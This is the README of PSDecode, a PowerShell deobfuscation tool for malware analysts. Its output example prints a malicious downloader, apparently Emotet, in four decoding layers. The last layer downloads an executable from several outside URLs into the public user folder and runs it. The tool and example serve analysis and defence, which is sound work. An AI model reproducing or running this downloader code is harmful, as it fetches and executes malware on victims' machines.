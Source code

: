 # PSDecode
This is a PowerShell script for deobfuscating other encoded PowerShell scripts. Often, malicious PowerShell scripts have several layers of encodings  (Replace, Base64Decode, etc...) that, once decoded, are executed via a call to Invoke-Expression (IEX, &, .), Invoke-Command, etc... This script employs a technique called method overriding that enables us to essentially intercept calls to functions that I have accounted for within this script and print out the arguments being passed to it (a.k.a what the script was trying to execute).

** Important Note #1: Only run this script within an isolated sandbox. If the encoded powershell attempts to execute a function which I have not accounted for, there is a chance it could execute**

** Important Note #2: The default execution policy for PowerShell is Restricted and if you dont use PowerShell a lot, chances are when you go to run this script, it will give you an error stating "PSDecode cannot be loaded because the execution of scripts is disabled on this system". If you receive this message, you'll need to change you execution policy to Unrestricted either temporarility or permanantly. The simplest way is to open a PowerShell command prompt as Administrator and run: set-executionpolicy unrestricted**

# To Use
1. Copy PSDecode.psm1 into $PSHome\Modules\
2. Open a new instance of PowerShell
3. Option #1 [Pass encoded PowerShell via File]:
<pre> > PSDecode .\encoded_ps.ps1 </pre>
4. Option #2 [Pass encoded PowerShell via PIPE]:
<pre> > Get-Content .\encoded_ps.ps1 | PSDecode </pre>

# Output Example
```PowerShell
############################## Layer 1 ##############################
&( $vERBOSEprefeRENCE.TOstRInG()[1,3]+'x'-jOiN'')(('. ((VAriAble rAb*m'+'DR*rAb)'+'.namE[3,11,'+'2]-joiNrAbrAb) ( (rAb ((8mrAb+rAb6o4Vfranc r'+'Ab+rAb8m6+8m6=rAb+rAb new-8m6'+'+8m6obj8m6+8m6ec
rAb+rAbt SysrAb+rAbt8m6+8m6em.Ne'+'t'+'.We8m6rAb+rAb+8m6bCli8m6+8m6enrAb+rAbt8rAb+rAbm6+8m6;8m6+8m6o4Vnsa8m6+8m6dasd 8m6+'+'8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'rAb+rAb8mrAb+rAb6random;
o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6'+'-8m6+8m6soft.pl/w8m6+8m6ef3rAb+rAb8m6+8m64668m6+8m6'+'48m6+8rAb+rAbm658m6+8m6,htt8m6+8mrAb+rAb6p8m6+8m6:rAb+rAb8m6+8
m6/'+'8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/wrAb+rAb8m6'+'+8m6efrAb+rAb348m6+8m666458m'+'6+8m6,htt8m6+8mrAb+rAb6prAb+rAb://8m6+'+'8m6truhlarstvi-be8m6+8m6'+'zd8m6+8m'+'6eka8m6+
8rAb+rA'+'bm6.c8m6+8rAb+rAbm6z/wef346645,h8m6+8m6ttrAb+rAb8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8mrAb+rAb6+8m6lit(H8m6+8m6a6,H8rAb+rAbm6+8m6a6'+')8m6
+8rAb+r'+'Abm6;8m6+8m6o4V8m6+8m6kara8m6+8m6pas = o8m6+8m64'+'Vns8m6+8m6adasd.next(18m6+8m6,rAb+rA'+'b 38m6+8m6rAb+rAb43248m6+8m658m6+8mrAb+rAb6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6rAb+r
Ab+8m6 Ha61U8m6+8m6nH'+'8m6'+'+8m6a6 +rAb+rAb o48m6+8m6Vkar'+'8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha'+'8m6+8m668m6+8m6;8m6rAb+rAb+8m6for8m6+8m6ea'+'c8m6+8m6h(o8m6+8m64VrAb+rAbab8m6+8m6c 
in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){'+'8m6+8m6try{o48m6+8m6'+'V8m6+8m6f8m6+8m6r8m6'+'+8m6a8m6+8m6n8m'+'6r'+'Ab+rAb+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8rAb+rAbm6c8m6+8m6.TrAb+rAboSt8m6+8m6r8m
6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+'+'8m6br8m6+8m6eak;}catch8m6'+'+8m6{wrrAb'+'+rAb8m6+'+'8m6i8m6+8m6te8m6+8m6-host'+' rAb+rAbo48rAb+rAbm6'+'+8m6V
_.Ex8m6+8m6c'+'e8m6+8m6pt8'+'m6+8rAb+rAbm6ion8m6'+'+8m6.MrAb+rAb8m6+8m6es8m6+8mrAb+rAb6rAb+'+'rAbsa8m6+8m6g8m6+8m'+'6e;}}8'+'m6'+')-CREpLACE 8m61Un8m6'+','+'[chaR]92 -CrA'+'b'+'+rAbREprAb+rAbL
ACE([chaR]111+[chaR]52+[chaR]86)'+',[cha'+'R]36 -CR'+'EpLACE ([chrAb+rAbaR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe rAb+rAb8m6*MDR*8m6).Name[3,11,2]'+'-JoIn8m68m6)rAb).rEpLA'+'Ce(([
'+'c'+'har]5'+'6+[char]109+[c'+'har]54),[StRiNG][char]39).rE'+'pLAC'+'e(rAbf5BrAb,[StRiNG][char]124) ) ').rEPLAcE('rAb',[StRING][ChAr]39) )


############################## Layer 2 ##############################
. ((VAriAble '*mDR*').namE[3,11,2]-joiN'') ( (' ((8m'+'6o4Vfranc '+'8m6+8m6='+' new-8m6+8m6obj8m6+8m6ec'+'t Sys'+'t8m6+8m6em.Net.We8m6'+'+8m6bCli8m6+8m6en'+'t8'+'m6+8m6;8m6+8m6o4Vnsa8m6+8m6das
d 8m6+8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'8m'+'6random;o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6-8m6+8m6soft.pl/w8m6+8m6ef3'+'8m6+8m64668m6+8m648m6+8'+'
m658m6+8m6,htt8m6+8m'+'6p8m6+8m6:'+'8m6+8m6/8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/w'+'8m6+8m6ef'+'348m6+8m666458m6+8m6,htt8m6+8m'+'6p'+'://8m6+8m6truhlarstvi-be8m6+8m6zd8m6+8m6
eka8m6+8'+'m6.c8m6+8'+'m6z/wef346645,h8m6+8m6tt'+'8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8m'+'6+8m6lit(H8m6+8m6a6,H8'+'m6+8m6a6)8m6+8'+'m6;8m6+8m6o4V8
m6+8m6kara8m6+8m6pas = o8m6+8m64Vns8m6+8m6adasd.next(18m6+8m6,'+' 38m6+8m6'+'43248m6+8m658m6+8m'+'6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6'+'+8m6 Ha61U8m6+8m6nH8m6+8m6a6 +'+' o48m6+8m6Vka
r8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha8m6+8m668m6+8m6;8m6'+'+8m6for8m6+8m6eac8m6+8m6h(o8m6+8m64V'+'ab8m6+8m6c in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){8m6+8m6try{o48m6+8m6V8m6+8m6f8m6+8m6
r8m6+8m6a8m6+8m6n8m6'+'+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8'+'m6c8m6+8m6.T'+'oSt8m6+8m6r8m6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+8m6br8m6+8m6eak;}catc
h8m6+8m6{wr'+'8m6+8m6i8m6+8m6te8m6+8m6-host '+'o48'+'m6+8m6V_.Ex8m6+8m6ce8m6+8m6pt8m6+8'+'m6ion8m6+8m6.M'+'8m6+8m6es8m6+8m'+'6'+'sa8m6+8m6g8m6+8m6e;}}8m6)-CREpLACE 8m61Un8m6,[chaR]92 -C'+'REp'
+'LACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([ch'+'aR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe '+'8m6*MDR*8m6).Name[3,11,2]-JoIn8m68m6)').rEpLACe(([char]56+[char]109+[cha
r]54),[StRiNG][char]39).rEpLACe('f5B',[StRiNG][char]124) ) 


############################## Layer 3 ##############################
 (('o4Vfranc '+'= new-'+'obj'+'ect Syst'+'em.Net.We'+'bCli'+'ent'+';'+'o4Vnsa'+'dasd '+'= n'+'e'+'w-'+'object '+'random;o4Vb'+'c'+'d = Ha6ht'+'t'+'p:'+'//s'+'mart'+'-'+'soft.pl/w'+'ef3'+'466'+
'4'+'5'+',htt'+'p'+':'+'/'+'/chimach'+'i'+'n'+'eno'+'w.com/w'+'ef34'+'6645'+',htt'+'p://'+'truhlarstvi-be'+'zd'+'eka'+'.c'+'z/wef346645,h'+'tt'+'p'+'://'+'er'+'icajoy.co'+'m/'+'wef346'+'645Ha6
.Sp'+'lit(H'+'a6,H'+'a6)'+';'+'o4V'+'kara'+'pas = o'+'4Vns'+'adasd.next(1'+', 3'+'4324'+'5'+');o4Vhuas = o4Ve'+'nv:p'+'ublic +'+' Ha61U'+'nH'+'a6 + o4'+'Vkar'+'apas '+'+ Ha6.e'+'xe'+'Ha'+'6'+'
;'+'for'+'eac'+'h(o'+'4Vab'+'c in '+'o4'+'Vb'+'c'+'d){'+'try{o4'+'V'+'f'+'r'+'a'+'n'+'c.Downlo'+'adFile(o4Vab'+'c'+'.ToSt'+'r'+'in'+'g('+')'+', o4'+'Vhua'+'s);Invoke-Item(o4Vhuas);'+'br'+'eak;
}catch'+'{wr'+'i'+'te'+'-host o4'+'V_.Ex'+'ce'+'pt'+'ion'+'.M'+'es'+'sa'+'g'+'e;}}')-CREpLACE '1Un',[chaR]92 -CREpLACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([chaR]72+[chaR]97+[chaR]
54),[chaR]39) | &((GeT-VaRIAbLe '*MDR*').Name[3,11,2]-JoIn'')


############################## Layer 4 ##############################
$franc = new-object System.Net.WebClient;$nsadasd = new-object random;$bcd = 'http://smart-soft.pl/wef346645,http://chimachinenow.com/wef346645,http://truhlarstvi-bezdeka.cz/wef346645,http://e
ricajoy.com/wef346645'.Split(',');$karapas = $nsadasd.next(1, 343245);$huas = $env:public + '\' + $karapas + '.exe';foreach($abc in $bcd){try{$franc.DownloadFile($abc.ToString(), $huas);Invoke
-Item($huas);break;}catch{write-host $_.Exception.Message;}}


############################## Actions ##############################
1. [System.Random] Generate random integer between 1 and 343245 . Value returned: 92672
2. [System.Net.WebClient.DownloadFile] Download from: http://smart-soft.pl/wef346645
3. [System.Net.WebClient.DownloadFile] Save downloaded file to: C:\Users\Public\92672.exe
4. [Invoke-Item] Execute/Open: C:\Users\Public\92672.exe
```
# Change Log
* 2018.06.05
  * Included -u switch that users will need to specify if the powershell script they are attempting to decode is Unicode encoded.
  * Updated script to properly handle the presence of whitespace characters wrapped in quotes.
* 2018.05.30
  * Added better handling of double quotes during script building to eliminate hard failure.
  * Implemented replace function to replace the string concatenation '+' that could be found within a malicious script with an empty string. Eliminates simple obfuscation in layer output.
* 2018.03.20 - updated script to account for changes made to newest version of Emotet's encoding scheme
